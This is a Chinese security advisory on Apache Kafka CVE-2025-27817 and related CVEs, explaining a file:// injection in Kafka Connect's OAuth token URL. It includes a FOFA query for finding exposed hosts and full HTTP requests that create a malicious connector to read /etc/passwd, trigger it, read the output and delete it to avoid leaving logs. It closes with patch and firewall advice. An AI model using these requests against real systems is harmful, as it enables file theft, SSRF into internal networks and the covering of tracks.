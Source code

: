 #  【漏洞预警】Apache Kafka Connect高危漏洞（CVE-2025-27817）可致任意文件读取,影响核心数据安全！  
 HK安全小屋   2025-06-12 15:27  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/GGOWG0fficjLTMIjhRPrloPMpJ4nXfwsIjLDB23mjUrGc3G8Qwo770yYCQAnyVhPGKiaSgfVu0HKnfhT4v5hSWcQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
6月9日，Apache Kafka官方披露了多个安全漏洞:  
  
CVE-2025-27819：  
通过 SASL JAAS JndiLoginModule 配置发起 RCE/拒绝服务攻击（利用此漏洞需要  
集群资源的 AlterConfigs 权限  
）  
  
CVE-2025-27818：  
可能通过 SASL JAAS LdapLoginModule 配置发起 RCE 攻击（利用此漏洞需经过身份验证的攻击者修改‘  
asl.jaas.config”属性“）  
  
CVE-2025-27817：  
Apache Kafka 客户端任意文件读取和 SSRF 漏洞（  
允许未经身份验证的攻击者利用该漏洞实现任意文件读取  
）  
  
大多数据处理中间件或流式处理框架，如：Apache Spark Structured Streaming、  
Apache Druid等  
在应用中需要调用Kafka Connect组件，  
而这些服务会存储大量的核心业务系统敏感数据，一旦被攻击将造成更加严重的数据泄密  
。  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEDnzsj0fDTW87vANxGKHrVqOLtBbgQCiacbWk8bQVMpGhUiatNDn8s2rQ/640?wx_fmt=png&from=appmsg "")  
  
### 【资产暴露面分析】  
  
我们通过FOFA搜索引擎查询公网中受影响资产情况，搜索语句如下：  
```
header="Jetty" && body="kafka_cluster_id"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEMzL93EGQ431I9TK2mhLygPada9vYFsuvJgHFD9fP1UiadKHpNMOmgrw/640?wx_fmt=png&from=appmsg "")  
  
  
FOFA搜索结果显示，暴露在公网的相关资产数量超  
3800  
+。  
  
【漏洞原理分析】  
  
我们基于Apache Kafka官网发布的漏洞描述，深入分析该漏洞：  
  
在 Apache Kafka 客户端 3.1.0 至 3.9.0 版本中，部分与认证相关的配置字段（如   
  
sasl.oauthbearer.token.endpoint.url  
）允许设置为 file://  
 协议  
。  
  
由于客户端未对该 URL 协议进行有效校验，导致可将本地文件内容作为 OAuth Token 加载——  
只要攻击者能够控制这些字段的值，即可触发漏洞  
。  
  
其中，  
Kafka Connect 是一个高危的漏洞触发场景  
：  
- 在分布式模式下，其默认暴露 REST API（端口 8083）；  
  
- 支持远程创建/修改连接器；  
  
可通过 JSON 请求直接注入恶意字段，如：  
```
"sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd"
```  
- 配置支持动态生效，无需重启，极易被脚本化利用。  
  
这些特性叠加，使原本应仅影响客户端配置安全的问题  
，  
演变为一个可远程利用的任意文件读取漏洞  
，大大提升了攻击风险。  
### 【漏洞复现】  
#### Step 1：构造恶意连接器  
  
向 Kafka Connect 的 /connectors  
 接口发送 POST 请求，创建带有 file:///etc/passwd  
 的连接器：  
```
POST /connectors HTTP/1.1
Host: 127.0.0.1:8083
Content-Type: application/json
{
 "name": "malicious-connector",
 "config": {
  "connector.class": "org.apache.kafka.connect.mirror.MirrorHeartbeatConnector",
  "tasks.max": "1",
  "source.cluster.alias": "source-0",
  "target.cluster.alias": "target-0",
  "source.cluster.bootstrap.servers": "127.0.0.1:9092",
  "target.cluster.bootstrap.servers": "127.0.0.1:9092",
  "producer.override.sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd",
  "producer.override.sasl.login.callback.handler.class": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginCallbackHandler",
  "producer.override.sasl.jaas.config": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required serviceName=\"exploit\";",
  "producer.override.sasl.mechanism": "OAUTHBEARER",
  "value.converter": "org.apache.kafka.connect.converters.ByteArrayConverter",
  "key.converter": "org.apache.kafka.connect.converters.ByteArrayConverter"
 }
}
```  
  
核心利用字段：  
```
"producer.override.sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd"
```  
  
正常用途：Kafka ⽀持通过 OAuth2 从远程URL（如HTTPS认证服务器）获取令牌。  
  
恶意用途：攻击者将URL设置为file:///etc/passwd，Kafka客户端将从本地磁盘读取/etc/passwd内容作为令牌。如果未配置allowed.urls白名单，Kafka将执行此读取操作。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEfxZKLorj0jWzc8yHubO5mRsfgKgzhx1xepias2JArOMGhQQXvcb1ROQ/640?wx_fmt=png&from=appmsg "")  
  
#### Step 2：触发连接器重启  
  
由于配置可能不会立即生效，攻击者需通过以下请求触发漏洞逻辑执行：  
```
POST /connectors/malicious-connector/restart HTTP/1.1
Host: 127.0.0.1:8083
```  
#### Step 3：读取响应信息  
  
可通过以下接口查看连接器状态和错误信息，判断漏洞是否生效：  
```
GET /connectors/malicious-connector/status HTTP/1.1
Host: 127.0.0.1:8083
```  
  
  
若系统未屏蔽敏感错误响应，可能在返回信息中看到/etc/passwd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEKvanseJ6tbqwx1BvmrC0wKicLibZ5ACgBjYfBAAKkdIjvcVnDRvaYl0A/640?wx_fmt=png&from=appmsg "")  
  
#### Step 4：删除痕迹  
  
为避免日志留痕，可通过 DELETE 请求删除恶意连接器：  
```
DELETE /connectors/malicious-connector HTTP/1.1
Host: 127.0.0.1:8083
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzExcZAdQm4oNicQiczib8UqNNBeh4vnrPB6ibvKfvRH4KSQkZVbvs9vzQwzg/640?wx_fmt=png&from=appmsg "")  
  
### 【漏洞危害】  
- 任意  
文件读取  
：  
可读  
取如  
/etc/shadow、/root/.ssh/id_rsa等  
敏感文件，威胁服务器安全。  
  
- 攻击者可将URL替换为内网地址（如http://127.0.0.1:8080/actuator/env），从而攻击内网服务。  
  
- 权限提升：  
配合其他漏洞或配置不当，攻击者可能进一步提升权限，最终完全控制Kafka Connect实例或其主机。  
  
- 配合信息泄露进一步渗透  
：  
例如通过泄露数据库配置，攻击者可进一步入侵业务系统、访问数据，甚至进行篡改。  
  
### 【安全加固建议】  
- 升级Kafka  
：Kafka官方已发布安全修复版本，请尽快升级至 3.9.1及以上版本，下载地址：https://github.com/apache/kafka/releases/tag/3.9.1  
  
- 配置URL白名单  
：设置  
allowed.urls限  
制可访问的URL范围。  
  
- 限制REST接口访问  
：关闭8083端口或启用访问认证机制。  
  
- 防火墙加固  
：使用防火墙限制Kafka Connect接口访问，仅允许可信内网IP。  
  
```
iptables -A INPUT -p tcp --dport 8083 ! -s 192.168.1.0/24 -j DROP
```  
```

```  
### Goby已完成CVE-2025-27817无损检测及EXP验证复现  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEnsaYJvGXlR9GbGklmlgoPjoDibp5QfPvQJ24fibOSWCvLiaiaDEgS6pAUg/640?wx_fmt=png&from=appmsg "")  
  
Goby欢迎表哥/表姐们加入我们的社区大家庭，一起交流技术、生活趣事、奇闻八卦，结交无数白帽好友。  
  
也欢迎投稿到Goby（Goby介绍/扫描/口令爆破/漏洞利用/插件开发/PoC编写/IP库使用场景/Webshell/漏洞分析等文章均可），审核通过后可奖励Goby标准版，快来加入吧~~~  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjIiabR1dAPwPUfdMicdAYjpI64IJvW0ibvQHibec1lKpI5j2gBSHics8h2nBF9PRHv3NwauicLyB5lEWfmQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
